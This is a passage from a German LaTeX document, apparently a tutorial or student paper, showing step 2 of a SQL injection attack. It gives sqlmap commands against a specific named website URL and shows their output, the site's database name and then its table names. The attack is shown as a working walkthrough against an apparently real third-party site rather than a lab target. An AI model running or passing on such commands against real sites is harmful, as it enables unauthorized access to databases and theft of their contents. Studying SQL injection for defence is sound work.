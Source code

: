 \newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss der Datenbankname zum Vorschein gebracht werden, der in den Datenbank-Tabellen und Spalten enthalten ist, die die Daten umfassen.\\

Ziel-URL: \texttt{http://www.acfurniture.com/artikel.php?id=1225}\\

\textbf{A. Datenbankname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung des Datenbanknames\cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:advd1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/artikel.php?id=1225" --dbs
\end{LaTeXCode}

Mit dem oben genannten Befehl wurde der Datenbankname ermittelt:

\begin{table}[h]
	\centering
	\begin{tabular}{l}
		available databases         \\
		{[}*{]} acfurniture         \\
		{[}*{]} information\_schema
	\end{tabular}
	\caption{Ergebnis: Datenbankname}
\end{table}

\textbf{B. Tabellenname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname \cite{ramadhan17sqlinj}},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/artikel.php?id=1225" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

\begin{table}[h]
	\centering
	\begin{tabular}{|l|}
		\hline
		{[}Date{]} {[}INFO{]} retrived: settings \\ \hline
		Database: acfurniture                    \\ \hline
		{[}4 tables{]}                           \\ \hline
		category                                 \\ \hline
		product                                  \\ \hline
		product\_hacked                          \\ \hline
		settings                                 \\ \hline
	\end{tabular}
	\caption{Ergebnis: Tabellenname}
\end{table}

